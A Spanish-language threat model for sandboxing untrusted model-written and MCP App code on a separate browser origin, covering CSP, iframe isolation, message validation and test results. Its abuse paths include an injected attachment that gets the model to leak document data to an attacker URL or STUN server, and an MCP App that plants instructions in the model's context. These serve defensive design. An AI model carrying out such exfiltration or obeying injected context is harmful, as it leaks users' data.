

# Segundo origen para código no confiable (sandbox de UI, Canvas y MCP Apps): modelo de amenazas (v0.4)

> Fecha: 2026-11-07 · Skill: `security-threat-model`. Plan: [`docs/specs/chat-capacidades-plan.md`](../../specs/chat-capacidades-plan.md) (fases 5 y 6: V0 a V3, K1, A1, A2). Decisiones que lo enmarcan: [D123](../../architecture/decisions/D123-segundo-origen-para-codigo-no-confiable.md) (segundo origen y espejo de dependencias en la release, vigente; su punto 8 recoge lo que este modelo fijó), [D124](../../architecture/decisions/D124-canvas.md) (Canvas, vigente) y [D125](../../architecture/decisions/D125-mcp-apps-de-solo-lectura.md) (MCP Apps de solo lectura, vigente; su punto 6 recoge lo que este modelo fijó); reglas 1, 3, 4 y 8 de `AGENTS.md`; D15, D24, D25, D39, D58, D63, D69, D93, D98, D116, D118; la excepción `CKV_AWS_174` de `AGENTS.md`.
> Amplía `mango-architecture-threat-model.md` (TM-001 inyección indirecta, TM-012 contenido no confiable en la web), [`remote-mcp-threat-model.md`](remote-mcp-threat-model.md) (lo que trae un MCP remoto) y [`code-interpreter-threat-model.md`](code-interpreter-threat-model.md) (el código del servidor; este modelo es el del navegador).
> **v0.4 (2026-11-08):** resultados de la prueba V0 en AWS (P1, P2, P4, P7; P5 en parte), ver «Resultados de V0» (D123 (11)).
> **v0.3 (2026-11-08):** V2 y V3 construyeron el espejo de dependencias y el runner, sin instalar (D123 (10)); ver «Lo que construyeron V2 y V3». Los controles de TM-UI3, UI4, UI5, UI8, UI9 y UI12 marcados **V2/V3** existen ya, con tests en `apps/ui-sandbox`, `apps/web/src/sandbox` e `infra/test/ui-sandbox-origin.test.ts`.
> **v0.2 (2026-11-08):** V1 construyó la infraestructura del segundo origen, sin contenido y sin instalar (D123 (9)); ver «Lo que construyó V1». Los controles de TM-UI1, UI2, UI11 y UI12 marcados **V1** existen ya, con tests en `infra/test/ui-sandbox-origin.test.ts`.
> v0.1 se escribe **antes** de construir: no hay código ni recursos. La evidencia es el código de `main` (la CSP de la SPA en `infra/lib/constructs/edge.ts`), la investigación del laboratorio del 2026-11-07 (análisis estático del sandbox público de ChatGPT, informe de infraestructura web de AWS y la revisión con REA del RPC y de la CSP del iframe interior) y el hallazgo «la CSP por `<meta>` solo endurece y el iframe escrito con `document.write` hereda la del padre». Esta noche no se llamó a AWS. Los supuestos los fijó el agente que escribió el modelo con la opción recomendada, por delegación expresa del dueño del 2026-11-07 (ver «Supuestos validados»).

## Executive summary

Canvas (vista previa de React, HTML y Python con Pyodide) y las MCP Apps ejecutan en el navegador de la persona código que Mango no escribió: lo escribe el modelo (quizá dictado por un adjunto o un resultado de tool) o lo trae el perfil firmado de un MCP. La SPA no puede ejecutarlo: su CSP tiene `script-src 'self'` y Trusted Types y así se queda. Por eso corre en un **segundo origen**: una distribución de CloudFront aparte (en la PoC, otro `*.cloudfront.net`, que es otro sitio registrable por la Public Suffix List; en producción, un dominio registrable aparte), con un runner de la release y un iframe interior por documento o app. Los riesgos dominantes son:

1. **Que el código no confiable llegue al origen de la SPA.** Un error de configuración que sirva el runner (con su `unsafe-eval`) desde la distribución de la SPA, o que la CSP de la SPA se relaje, daría a cualquier inyección el access token en memoria y la cookie de sesión (TM-UI1, TM-UI2).
2. **Mensajes falsos entre ventanas.** Si el host acepta un `init` o una respuesta de cualquier ventana, otra página o la propia app puede hacerse pasar por el runner y pedirle a la SPA que llame tools (TM-UI3).
3. **Exfiltración desde el sandbox.** El código recibe datos para dibujar (un documento, el resultado de una tool) y puede intentar sacarlos: `fetch`, imágenes, navegación, formularios, WebRTC (TM-UI4).
4. **MCP Apps que actúan.** Una app puede pedir `tools/call` sin que la persona lo vea, o meter texto en la conversación o en el contexto del modelo (TM-UI6, TM-UI7).
5. **Integridad del código servido.** El runner y el espejo de dependencias (~100 MB: Pyodide, esbuild, Babel, React, Recharts, Tailwind) viajan en la release; el HTML curado de cada app, en el perfil firmado (TM-UI8).

Con las mitigaciones listadas, ninguno queda en **high**. Los residuales más altos son TM-UI4 (**medium**: hay canales que la CSP no cubre) y TM-UI1 (**medium**: el aislamiento depende de una configuración que se protege con tests).

## Scope and assumptions

- **Dentro:**
  - la segunda distribución, su bucket con OAC, su Response Headers Policy, la CloudFront Function con KeyValueStore del `frame-ancestors` y CORS en `/vendor/*` (V1);
  - el espejo de dependencias en la release y su tipo de contenido (V1, D123 (3));
  - el runner: iframe exterior, iframe interior, handshake `init`, RPC por `MessageChannel` y su CSP (V2, V3);
  - el host en la SPA: creación del iframe, validación de mensajes, `frame-src` de su CSP;
  - la vista previa de Canvas (K1) y el host de MCP Apps (A2), en lo que toca al navegador;
  - el `_meta.ui` curado en el perfil firmado y su hash (A1).
- **Fuera:**
  - las tools `textdoc.*` y su almacenamiento (K1) más allá de lo que se manda al sandbox: se modelan con su PR;
  - la exportación con `render_document` (`code-interpreter-threat-model.md`, TM-CI8);
  - el servidor MCP remoto y su autorización (`remote-mcp-threat-model.md`);
  - el render de mensajes, gráficas y tablas en la SPA (D118), que no ejecuta código;
  - fallos del propio navegador (escape de su sandbox), responsabilidad del fabricante.
- **Supuestos** (los de «Supuestos validados» están fijados):
  1. La SPA y el sandbox son sitios distintos: dos `*.cloudfront.net` en la PoC (comprobado en la Public Suffix List del 2026-11-06), un dominio registrable aparte en producción (D123 (1)). Que el navegador los trate así se prueba en V0 (P1).
  2. El runner (iframe exterior) es código de la release, revisado y firmado como la SPA: confiable. Lo no confiable vive solo en el iframe interior.
  3. Nada del sandbox necesita cookies, sesión ni credenciales: todo lo que dibuja se lo manda el host por el canal.
  4. La persona es de confianza para su propio contenido. El atacante es quien controla lo que el modelo escribe (inyección), el HTML o las respuestas de un MCP remoto aprobado, u otra página abierta en el navegador de la persona.
- **Preguntas abiertas** (las responde la prueba V0, con autorización del dueño): P1 (dos distribuciones son dos sitios), P2 (CSP de 1.783 caracteres), P4 (`.wasm` como `application/wasm` desde la release), P5 (Worker y Pyodide en origen opaco), P7 (orden entre la Response Headers Policy y la función que pone `frame-ancestors`); además, **U-a:** qué canales de salida deja el iframe interior con la CSP elegida (WebRTC, `prefetch`, DNS) en Chrome, Firefox y Safari.

## System model

### Primary components

| Componente | Qué hace | Evidencia o PR |
|---|---|---|
| SPA (`dXXXX`) | Host: crea el iframe del runner, valida el `init`, habla por los puertos, reenvía las `tools/call` de una app a `mango-api` | `apps/web/`; CSP en `infra/lib/constructs/edge.ts` (hoy sin `frame-src`); V1, V2 |
| Segunda distribución (`dYYYY`) | Sirve el runner (`sandbox.html`, `/assets/`) y el espejo (`/vendor/`) desde un bucket de la release, con su política de cabeceras | V1 |
| CloudFront Function + KeyValueStore | Añade `frame-ancestors` con el origen de la SPA, sin ciclo entre las dos distribuciones | V1 |
| Runner (iframe exterior) | Recibe el contenido por el canal, crea el iframe interior y aplica su CSP, que solo se endurece | V2 |
| Iframe interior | Corre el código no confiable: componente React transpilado, HTML, Python en un Worker con Pyodide, HTML de una MCP App | V3, K1, A2 |
| Espejo de dependencias | Versiones fijas con sha256, nombradas por contenido, dentro de la release | V1 (D123 (3)) |
| Perfil firmado de MCP | `_meta.ui` curado: HTML con su hash y la CSP que declara | A1 (D125 (2)) |
| `mango-api` | Autoriza, reserva y manda al Gateway las `tools/call` de una app | A2 (D125 (4)) |

### Data flows and trust boundaries

- **SPA → runner.** `iframe.src` hacia el segundo origen (`frame-src` de la SPA); el runner contesta con `postMessage({type:"init", ports, replyPort})` a un `targetOrigin` fijo, el de la SPA. El host lo acepta solo si coinciden `source`, `origin`, el `initId` aleatorio del hash y el conjunto exacto de puertos.
- **Host ↔ runner.** RPC por `MessageChannel` (`CALL`, `RESOLVE`, `REJECT`, `ABORT`), con tamaño y tiempo máximos. Cruzan: el código o el HTML a dibujar, los datos que necesita (contenido del documento, `tool-input`, `tool-result`), y en sentido contrario pedidos de una lista cerrada.
- **Runner → iframe interior.** En la PoC, iframe con `sandbox="allow-scripts"` sin `allow-same-origin`: origen opaco, sin cookies ni storage, distinto del runner y de cualquier otro iframe interior. La CSP del interior hereda la del exterior (techo) y se endurece con `<meta>`.
- **Iframe interior → segundo origen.** Solo `GET` a `/vendor/*` (CORS `*`, sin credenciales).
- **SPA → `mango-api` → Gateway.** Las `tools/call` de una app, con el token de la persona, Cedar, presupuesto y firma (D125 (4)).
- **Release → buckets.** El runner y el espejo entran por la plantilla pre-sintetizada (D25); nada se descarga en ejecución.

#### Diagram

## Assets and security objectives

| Activo | Por qué importa | Objetivo |
|---|---|---|
| Access token en memoria de la SPA y cookie de sesión (D63) | Dan la identidad de la persona en toda la API | Confidencialidad |
| Integridad del origen de la SPA (CSP, Trusted Types) | Un script ajeno en ese origen lo controla todo | Integridad |
| Datos que se mandan al sandbox | Documento de Canvas, resultados de tools, datos de la persona | Confidencialidad |
| Capacidad de pedir `tools/call` | Gasto y lectura en sistemas externos en nombre de la persona | Integridad, disponibilidad |
| Conversación y contexto del modelo | Un texto inyectado cambia el turno siguiente | Integridad |
| Runner, espejo y HTML curado | Código que corre en el navegador de todas las personas | Integridad |
| Distribución del sandbox | Coste de CloudFront por el espejo de ~100 MB | Disponibilidad, coste |

## Attacker model

### Capabilities

- Hacer que el modelo escriba código o HTML arbitrario en un documento de Canvas.
- Controlar el HTML de una MCP App solo si el perfil firmado lo trae (lo revisa la release) y controlar siempre los resultados de sus tools.
- Abrir otras pestañas o ventanas en el navegador de la persona (una página enlazada) y mandar `postMessage` a cualquier ventana que tenga a mano.
- Incrustar la URL del runner en su propia página.

### Non-capabilities

- No sirve contenido desde el origen de la SPA ni desde el del sandbox: solo la release escribe esos buckets.
- No cambia el HTML de una app en ejecución: viene del perfil firmado, con su hash (D125 (2)); el Gateway no deja pasar `resources/read` (D98 (16)).
- No lee la memoria de otra pestaña de otro sitio (aislamiento de sitios del navegador).
- No llama tools de escritura desde una app: solo `read` (D125 (4)).

## Entry points and attack surfaces

| Superficie | Cómo se alcanza | Frontera | Notas | PR |
|---|---|---|---|---|
| Comportamientos de la distribución de la SPA | Configuración de CDK | Release → navegador | Nunca hacia el bucket del sandbox | V1 |
| CSP de la SPA | `edge.ts` | Release → navegador | Solo gana `frame-src` | V1 |
| `init` del runner | `message` en la ventana de la SPA | Ventanas → host | Validación de `source`, `origin`, `initId`, puertos | V2 |
| Pedidos del runner al host | RPC por los puertos | Runner → host | Lista cerrada | V2, A2 |
| Contenido a dibujar | `runCode`/`runApp` del host | Host → runner → interior | Código y HTML no confiables | V3, K1, A2 |
| CSP del iframe interior | `<meta>` del runner | Runner → interior | Solo endurece; recrear para relajar | V3 |
| `/vendor/*` | `GET` desde origen opaco | Interior → segundo origen | CORS `*`, sin credenciales | V1 |
| `frame-ancestors` | CloudFront Function + KVS | Segundo origen → navegador | Debe fallar cerrado | V1 |
| `_meta.ui` del perfil | Release | Perfil → host | Hash y CSP declarada | A1 |
| Métodos de MCP Apps | `ui/*` y `tools/call` por el puente | App → host → `mango-api` | Solo los de D125 (3) | A2 |

## Top abuse paths

1. **Runner en el origen equivocado.** Un cambio de CDK añade a la distribución de la SPA un comportamiento `/sandbox/*` hacia el bucket del runner → el código del modelo corre en el origen de la SPA con `unsafe-eval` → lee el access token de la memoria de la SPA y llama a la API como la persona.
2. **CSP relajada.** Para «hacer funcionar» una vista previa alguien añade `unsafe-eval` o quita `trusted-types 'none'` de la SPA y usa `srcdoc` → el siguiente XSS de Markdown ya no lo para nada.
3. **`init` suplantado.** Una página que la persona abrió desde un enlace del chat (`window.opener`) manda a la SPA un `init` con puertos propios antes que el runner → si el host no valida `source` y `origin`, la página habla con la SPA como si fuera el sandbox y le pide `tools/call`.
4. **Exfiltración.** Un adjunto pide al modelo un componente que «cargue una imagen de estado» con `https://atacante/?d=<datos del documento>` → con `img-src` abierto, los datos salen; o abre un `RTCPeerConnection` hacia un STUN del atacante, que la CSP no cubre.
5. **App que actúa.** El HTML curado de una app llama `tools/call` en bucle a una tool de lectura cara o con argumentos que llevan datos de otro resultado → gasto, o datos que llegan a un tercero en los argumentos.
6. **Contexto envenenado.** Una app manda `ui/message` o `ui/update-model-context` con instrucciones → el modelo las lee en el turno siguiente como si fueran de la persona.
7. **Phishing en el marco.** El código dibuja «Tu sesión de Mango caducó, escribe tu contraseña» con el aspecto de la SPA → la persona la escribe.
8. **Hotlinking.** Otro sitio incrusta el espejo (CORS `*`) y descarga Pyodide y pandas en cada visita → coste de CloudFront para el cliente.

## Threat model table

| ID | Origen | Requisito | Acción | Impacto | Activos | Controles existentes | Huecos | Mitigación (PR) | Detección | Prob. | Impacto | Prioridad |
|---|---|---|---|---|---|---|---|---|---|---|---|---|
| TM-UI1 | Cambio de configuración | Un comportamiento o un origen de la SPA hacia el contenido del sandbox | Ejecutar código no confiable en el origen de la SPA | Robo del token y de la sesión; control total de la cuenta de la persona | Token, cookie, origen de la SPA | CSP de la SPA con `script-src 'self'` y Trusted Types | No existe aún el segundo origen | **V1:** buckets distintos para la SPA y para el sandbox; un test impide que la distribución de la SPA tenga un comportamiento o un origen hacia el bucket del sandbox, y que el bucket de la SPA tenga `sandbox.html`, `/vendor/` o el runner; con dominio propio, el dominio del sandbox es registrable aparte, nunca un subdominio del de la SPA (D123 (1)) | cdk-nag, test, revisión del PR | Baja | Alta | **medium** |
| TM-UI2 | Cambio de código | La CSP de la SPA | Relajarla (`unsafe-eval`, `unsafe-inline`, quitar Trusted Types) o usar `srcdoc` | Cualquier XSS pasa a ser explotable | Origen de la SPA | CSP actual; tests de `edge.ts`; Trusted Types bloquea `srcdoc` en la SPA | — | **V1:** la CSP de la SPA solo gana `frame-src https://<sandbox>` (y nada con comodín de `cloudfront.net`); un test fija que no gana `unsafe-eval`, `unsafe-inline` en `script-src` ni pierde `require-trusted-types-for` | Test de infra | Baja | Alta | **low** |
| TM-UI3 | Otra ventana o la propia app | Poder mandar `postMessage` a la SPA | Suplantar el `init` o las respuestas del runner | Llamadas a `tools/call` y datos falsos en la SPA | Capacidad de llamar tools | — | — | **V2:** el host acepta el `init` solo con `event.source === iframe.contentWindow`, `event.origin` igual al del sandbox, `initId` aleatorio por arranque (en el hash del `src`) y el conjunto exacto de puertos; después solo escucha los puertos, nunca `message` de la ventana; el runner manda a un `targetOrigin` fijo (el de la SPA), nunca `*`; handshake de 20 s y RPC de 30 s; tamaño máximo por mensaje; los pedidos del runner se validan con zod | Errores de handshake contados en el cliente | Media | Media | **medium** |
| TM-UI4 | Inyección indirecta | Datos de la persona dentro del sandbox | Sacarlos por red, navegación, formularios, ventanas o canales sin CSP | Fuga de datos | Datos mandados al sandbox | Origen aparte, sin credenciales | La CSP no cubre WebRTC ni todo el DNS (U-a) | **V3:** CSP del exterior como techo y del interior que solo se endurece, con `default-src 'none'` salvo `'self'` para el espejo, `connect-src 'self'`, `img-src 'self' data: blob:`, `form-action 'none'`, `base-uri 'none'`, `object-src 'none'`, `frame-src 'none'`; iframe interior sin `allow-forms`, `allow-popups`, `allow-top-navigation` ni `allow-modals`; `Permissions-Policy` que niega cámara, micrófono, geolocalización, pago, USB y `storage-access`; una MCP App solo gana en `connect-src` los dominios que declara su `_meta.ui` curado; el host manda al sandbox solo lo que hay que dibujar, nunca tokens, URLs prefirmadas ni ids internos. V0 mide U-a | — (el navegador no avisa) | Media | Media | **medium** |
| TM-UI5 | Contenido de un documento o de una app | El iframe interior | Leer o influir en otro documento o app, o en el runner | Cruce entre apps o documentos | Datos mandados al sandbox | — | En la PoC no hay subdominio por app | **V3:** un iframe interior por documento o app, de origen opaco (`allow-scripts` sin `allow-same-origin`), creado con `srcdoc` dentro del runner, que el runner destruye y recrea para cambiar su CSP o su contenido; sin storage ni cookies; con dominio propio, además un subdominio por servidor MCP validado por una CloudFront Function (D123 (2)) | — | Baja | Media | **low** |
| TM-UI6 | HTML o resultados de una MCP App | El puente de la app | Pedir `tools/call` en bucle, a tools de otro servidor o con datos de otra tool | Gasto; datos que salen a un tercero en los argumentos | Presupuesto, datos | Gateway con Cedar L2, presupuesto y firma (D125 (4)); solo lectura | — | **A2:** la app solo llama tools de su propio ítem del perfil y visibles para la app; cada `tools/call` pasa por `mango-api` como una tool del modelo (Cedar, reserva, firma, auditoría); límite por app y por turno, y otro por persona y minuto; la app solo existe mientras su mensaje está en pantalla; tamaño máximo de argumentos | Auditoría de `tools/call` con origen «app» | Media | Media | **medium** |
| TM-UI7 | HTML o resultados de una MCP App | El puente de la app | Meter texto en la conversación o en el contexto del modelo, o abrir enlaces | Inyección en el turno siguiente; phishing | Integridad del turno | — | — | **A2:** en v1 el host solo atiende los métodos de D125 (3) (`ui/initialize`, `tool-input`, `tool-result`, `ui/request-display-mode`) y `tools/call`; `ui/message`, `ui/update-model-context`, `ui/open-link` y las descargas responden «no admitido» hasta una decisión propia | Pedidos rechazados contados | Media | Media | **low** (con A2) |
| TM-UI8 | Release o perfil alterados | Runner, espejo o HTML de una app | Servir código distinto del revisado | Código hostil para todas las personas | Integridad | Firma de la release y de los perfiles (D36, D58, D93 (3)) | — | **V1/A1:** el espejo con versión fija y sha256 por archivo (el `pyodide-lock.json` y el lock de npm), verificado en el build de la release y nombrado por contenido (D69); `.wasm` con `application/wasm` y un test; el pipeline verifica el hash del HTML curado y el host lo vuelve a comprobar (SubtleCrypto) antes de mandarlo al runner; Pyodide sin `micropip` hacia PyPI (CSP sin ese origen) | Auditoría de dependencias del CI (`mise run audit`) | Baja | Alta | **medium** |
| TM-UI9 | Código del modelo o de una app | El iframe interior | Bucle infinito, memoria sin tope, Worker que no termina | Pestaña bloqueada | Disponibilidad del chat | — | — | **V3:** el código de Python corre en un Worker que el runner termina al vencer su tiempo (sin `SharedArrayBuffer`: se pierde el estado); iframes entre sitios en otro proceso donde el navegador lo hace (`Origin-Agent-Cluster: ?1`); el host destruye el iframe tras 50 s sin `ui/initialize` o a pedido de la persona | — | Media | Baja | **low** |
| TM-UI10 | Código del modelo o de una app | El marco en el chat | Dibujar un formulario de inicio de sesión o un aviso falso de Mango | Credenciales o acciones engañadas | La persona | — | — | **V3/D24:** marco con borde y etiqueta de origen («contenido generado por el agente», «app de <MCP>») que pinta la SPA fuera del iframe; sin formularios (`form-action 'none'`, sin `allow-forms`) ni red de salida, nada de lo escrito sale; el diseño del marco sale de la ronda de Claude Design | — | Baja | Media | **low** |
| TM-UI11 | Cualquier sitio | La URL del runner | Incrustarlo en otra página | Usar el runner como gadget o confundir a la persona | Integridad | — | — | **V1:** `frame-ancestors` con el origen de la SPA que pone la CloudFront Function; si la KVS no tiene valor, la función pone `frame-ancestors 'none'` (falla cerrado); cabecera CSP `sandbox` en el exterior; `X-Frame-Options` no se pone (`frame-ancestors` manda). V0 (P7): la función corre después de la política y gana; **en una respuesta de error del origen la función no corre y llega la CSP de respaldo de la política** (`frame-ancestors 'none'`), que cubre así los errores del origen además de las respuestas del web ACL | Test de la función con KVS vacía | Baja | Baja | **low** |
| TM-UI12 | Cualquier sitio | CORS `*` en `/vendor/*` | Descargar el espejo desde otros sitios | Coste de CloudFront | Coste | — | — | **V1:** el web ACL de la SPA (con su límite de tasa) también en la segunda distribución; `Cache-Control: immutable` en `/vendor/`; alarma de bytes servidos | Métricas de CloudFront | Baja | Baja | **low** |

## Lo que construyó V1 (2026-11-08)

- **TM-UI1:** bucket propio del sandbox (`UiSandboxOrigin`), su propia distribución con un único origen; un test comprueba que la distribución de la SPA no tiene origen, comportamiento ni política hacia él, y la síntesis falla si la SPA construida trae `sandbox.html` o `vendor/`.
- **TM-UI2:** la CSP de la SPA solo gana `frame-src https://<distribución del sandbox>` por su host exacto (`Edge.allowFrameFrom` rechaza comodines y lo que no sea `https`); un test fija `script-src 'self'`, sin `unsafe-eval` ni `unsafe-inline`, `blob:` solo en `img-src` (las figuras de D116 (5)), con Trusted Types y `frame-ancestors 'none'`.
- **TM-UI11:** la CSP entera la pone la CloudFront Function (`viewer-response`): el techo más `frame-ancestors` con el origen de la SPA, leído de la KVS `Mango-<ns>-ui-sandbox`; con la llave vacía, un valor que no es un origen `https` exacto o un fallo al leer, `frame-ancestors 'none'`. La política de cabeceras lleva el techo con `frame-ancestors 'none'` y `override: false` para lo que no pasa por la función (las respuestas del web ACL). La KVS la escribe un custom resource del stack anidado `UiSandbox` que solo acepta un origen `https` exacto y solo puede escribir esa KVS. Sin `X-Frame-Options`.
- **TM-UI12:** el mismo web ACL que la SPA; solo `GET` y `HEAD`; CORS (`*`, sin credenciales) solo bajo `/vendor/`. La alarma de bytes servidos y el `Cache-Control: immutable` llegan con el espejo (V2).
- **TM-UI4, TM-UI9 (cabeceras):** `Permissions-Policy` que niega cámara, micrófono, geolocalización, pago, USB, `storage-access` y captura de pantalla; `Origin-Agent-Cluster: ?1`; `nosniff`; `no-referrer`; HSTS.
- **El techo del exterior** lleva `'unsafe-inline'` y `'unsafe-eval'` en `script-src`: el iframe interior creado con `srcdoc` hereda la CSP del runner y el `<meta>` solo endurece. El runner nunca escribe en su propio DOM lo que recibe (V3); la red sigue siendo solo `'self'`. Se suma al residual de `unsafe-eval` y `unsafe-inline` de abajo.
- **V0 (AWS, 2026-11-08):** la función corre después de la política, ve sus cabeceras y su CSP es la que llega; no se suman dos CSP (P7). En un error del origen la función no corre y llega la del respaldo. P1 y P2, en «Resultados de V0»; los canales de salida siguen sin probar.

## Lo que construyeron V2 y V3 (2026-11-08)

- **TM-UI3 (mensajes):** el runner (`apps/ui-sandbox/src/runner.ts`) solo arranca dentro de un marco, con un `initId` UUID v4 en el hash, y manda su único `init` al origen de la SPA que escribe la publicación en `runner-config.json` (nunca al de la URL). El host (`apps/web/src/sandbox/sandboxHost.ts`, `acceptInit`) exige la ventana de su iframe, el origen exacto del sandbox, su `initId`, la versión, exactamente los puertos `run` y `stop` más el de respuesta, transferidos con el mensaje, y ningún campo más; 20 s de handshake y después solo los puertos. Todo el RPC (`CALL`/`RESOLVE`/`REJECT`/`ABORT`, `src/protocol.ts`) va acotado: 32 entradas, profundidad 8, 256 valores, 4096 caracteres por cadena y 16 KiB de JSON; solo el `source` de una ejecución llega a 1 MiB. El runner solo le pide al host sus eventos, de una lista cerrada y validada, como mucho 200 por ejecución; los errores cruzan con nombre y mensaje. Un `top.postMessage` del código no confiable llega a la SPA con otra ventana como `source` y se descarta (test unitario de `acceptInit`).
- **TM-UI4 (salida):** el iframe interior lleva una CSP por `<meta>`, su primer elemento, con `default-src 'none'` y la red, los scripts, los estilos y las fuentes solo hacia `<origen>/vendor/`; `img-src data: blob:`; `frame-src`, `object-src`, `media-src`, `base-uri` y `form-action` en `'none'`. Un test fija que nunca es más laxa que el techo. Los dominios de una ejecución se normalizan y deben estar en el techo (ninguno hasta A1). El host solo manda el código; la salida (texto y figuras) se queda dentro del iframe. En Chromium, sin AWS, un `fetch` y una imagen hacia fuera quedan bloqueados (y el segundo se reporta como `csp-violation`).
- **TM-UI5 (cruce):** un iframe interior por ejecución, `sandbox="allow-scripts"` sin `allow-same-origin`, creado con `srcdoc` y destruido al terminar, al vencer o al reemplazarse. La regla de monotonía es por runner: una política más laxa se rechaza («CSP is being loosened») y exige un runner nuevo.
- **TM-UI8 (integridad):** el espejo tiene versión fija. Lo de npm viene del lockfile; los paquetes de Pyodide los descarga el CI de la release y se comparan con `pyodide-lock.json`, cuyo sha256 fija `apps/ui-sandbox/vendor.json`. `manifest.json` lista sha256 y tamaño de cada archivo, y la síntesis falla si no coincide; el build de la release (`dist.py`), si le faltan los paquetes de Pyodide. `.wasm` va como `application/wasm` (test). Pyodide no tiene `micropip` ni PyPI. El código de React solo importa lo que nombra el import map (el espejo).
- **TM-UI9 (bloqueo):** Python corre en un Worker `blob:` dentro del iframe interior; a los 50 s el runner destruye el iframe y con él el Worker.
- **TM-UI12 (coste):** la alarma `Mango-<ns>-UiSandbox-bytes` (más de 10 GiB en una hora) avisa al tema de alertas; `/vendor/` y `/assets/` llevan `Cache-Control: immutable`.
- **Excepción aceptada por el dueño (2026-11-08):** el runner entrega su puerto al iframe interior con `postMessage(…, '*')`, porque un origen opaco no tiene nombre (JS-MSG-001, en `AGENTS.md`). El mensaje solo lleva su tipo y el puerto, va al iframe recién creado y lo que diga por el puerto no se cree.
- **Pendiente:** de V0, U-a (canales de salida), Firefox, Safari y Pyodide; el marco y la configuración de Canvas (K1), y el host de MCP Apps (A2).

## Resultados de V0 (2026-11-08)

Prueba en la cuenta del cliente, autorizada por el dueño ese día, con dos distribuciones temporales que copiaban la política y la función de V1 (D123 (11)):
- **P1 (TM-UI1 a TM-UI3), en Chrome:** dos `*.cloudfront.net` son dos sitios. El iframe del sandbox no ve cookies ni `localStorage` de la SPA ni al revés; `Domain=cloudfront.net` no queda en ninguno; `top`, `top.document.cookie` y `parent.localStorage` dan `SecurityError`; el `postMessage` llega con el origen del sandbox; el almacenamiento del iframe queda particionado; `frame-ancestors` impidió que una página no listada lo enmarcara. Supuesto 1 confirmado en Chrome.
- **P2:** el tope de la CSP es 1.783 caracteres; la de V1 mide 337.
- **P4 (TM-UI8):** `.wasm` hace falta subirlo con `application/wasm` (sin tipo, `instantiateStreaming` falla); CloudFront no cambia el tipo. V2 lo fija.
- **P5 (parcial, TM-UI4, TM-UI9):** Worker `blob:` en el iframe y en el interior opaco; en el interior, sin `cookie` ni `localStorage`, el `.wasm` del espejo por el CORS de `/vendor/` y `fetch` a la SPA bloqueado por `connect-src 'self'`. Pyodide sin probar en AWS.
- **P7 (TM-UI11):** la función corre después de la política y su CSP es la que llega; en un error del origen la función no corre y llega la CSP de respaldo.
- **Sin probar:** U-a (canales de salida del interior: WebRTC, `prefetch`, DNS), Firefox, Safari, Pyodide y el web ACL (TM-UI12).

## Criticality calibration

- **high:** código no confiable en el origen de la SPA; robo de token o de sesión; tools de escritura desde una app.
- **medium:** fuga de lo que se manda al sandbox; mensajes suplantados; integridad del espejo; apps que gastan o mandan datos en argumentos.
- **low:** cruce entre iframes opacos, phishing sin red de salida, incrustación ajena, bloqueo de la pestaña, coste.

## Focus paths for security review

| Ruta (cuando exista) | Por qué | Amenazas |
|---|---|---|
| `infra/lib/constructs/edge.ts` y el construct del sandbox | Buckets, comportamientos, CSP de la SPA, política del sandbox, función con KVS | TM-UI1, UI2, UI11, UI12 |
| `infra/test/` (tests del segundo origen) | Fijan lo que no se puede cambiar | TM-UI1, UI2, UI8, UI11 |
| `apps/web/src/` (host del sandbox, puente de MCP Apps) | Validación del `init`, puertos, lista cerrada, `tools/call` | TM-UI3, UI6, UI7 |
| Runner del sandbox (V2) | CSP del interior, `srcdoc`, Worker, tiempos | TM-UI4, UI5, UI9 |
| `deployment/` (espejo en la release) y `packs/` (perfil con `_meta.ui`) | sha256, tipos, hash del HTML | TM-UI8 |

## Supuestos validados

Fijados el 2026-11-07 por el agente que escribió el modelo, con la opción recomendada en cada uno, **por delegación expresa del dueño del 2026-11-07** («si necesitas validar algo conmigo toma la decisión recomendada»). Se recogen en [D123](../../architecture/decisions/D123-segundo-origen-para-codigo-no-confiable.md) (8) y [D125](../../architecture/decisions/D125-mcp-apps-de-solo-lectura.md) (6):

- Iframe interior de origen opaco (`allow-scripts` sin `allow-same-origin`), uno por documento o app, creado con `srcdoc` dentro del runner; sin `allow-forms`, `allow-popups`, `allow-top-navigation` ni `allow-modals` («Interior opaco y sin permisos extra (Recomendada)»).
- Red del iframe interior: solo el propio segundo origen (el espejo); una MCP App gana solo los dominios de su `_meta.ui` curado; Pyodide sin PyPI («Solo el espejo (Recomendada)»).
- El host manda al sandbox solo lo que hay que dibujar: nunca tokens, URLs prefirmadas ni ids internos («Datos mínimos al sandbox (Recomendada)»).
- MCP Apps v1: solo los métodos de D125 (3) y `tools/call` de tools de su propio ítem; `ui/message`, `ui/update-model-context`, `ui/open-link` y descargas, no admitidos («Lista cerrada de D125 (Recomendada)»).
- La función del `frame-ancestors` falla cerrada, y la segunda distribución lleva el mismo web ACL que la SPA («Fallo cerrado y WAF compartido (Recomendada)»).

## Riesgos residuales

**Pendientes de aceptación del dueño** (salvo las excepciones, aceptadas el 2026-11-08). El agente que escribió el modelo no los acepta.

- **TM-UI4:** la CSP no cubre todos los canales de salida (WebRTC en particular; `prefetch` y DNS según el navegador). Un código hostil podría sacar lo que se le mandó a dibujar. Lo acota mandar solo eso; V0 mide qué deja cada navegador.
- **TM-UI1:** el aislamiento depende de que la distribución de la SPA nunca sirva el runner; lo protege un test, no una frontera de AWS.
- **`unsafe-eval` y `unsafe-inline` dentro del sandbox:** necesarios para Babel, esbuild y Pyodide; aceptables solo por el aislamiento de sitio y de origen opaco.
- **`postMessage(…, '*')` del runner al iframe interior (V3):** excepción a JS-MSG-001 registrada en `AGENTS.md`, aceptada por el dueño el 2026-11-08 (D123 (10) (k)).
- **PoC sin dominio propio:** sin subdominio por app; el aislamiento entre apps es solo el del origen opaco (TM-UI5). Las ampliaciones de `CKV_AWS_174` (certificado por defecto) y `CKV_AWS_86`/`AwsSolutions-CFR3` (logs v2) a la segunda distribución están registradas en `AGENTS.md`, aceptadas por el dueño el 2026-11-08 (D123 (9) (f)).

## Quality check

- Entradas cubiertas: comportamientos y CSP de la SPA, `init`, pedidos del runner, contenido a dibujar, CSP del interior, `/vendor/*`, `frame-ancestors`, `_meta.ui`, métodos de MCP Apps.
